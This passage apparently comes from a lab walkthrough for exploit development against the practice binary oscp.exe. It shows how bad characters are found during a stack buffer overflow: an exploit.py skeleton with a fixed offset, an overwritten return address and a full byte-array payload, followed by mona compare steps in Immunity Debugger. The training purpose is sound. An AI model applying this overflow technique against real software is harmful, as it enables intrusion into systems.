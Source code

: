 Update your `exploit.py` script and set the payload variable to the string of bad chars the script generates.
```python
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""
```

Restart oscp.exe in Immunity and run the modified `exploit.py` script again. Make a note of the address to which the ESP register points and use it in the following mona command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

In this case the offset is 1978 (calculated previously) and the return address is overritten with "BBBB" value. So the program will fail during the `ret` operation and it will stop at that point. Immediately after there will be the payload who had overwrite the ESP adress.

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (`\x00`) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with `\x00`. Then update the payload variable in your `exploit.py` script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified `exploit.py` script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

After the first time, this is the output of `mona compare` command.

<div><p align="center"><img  src="img/mona1_3.png" /></div>
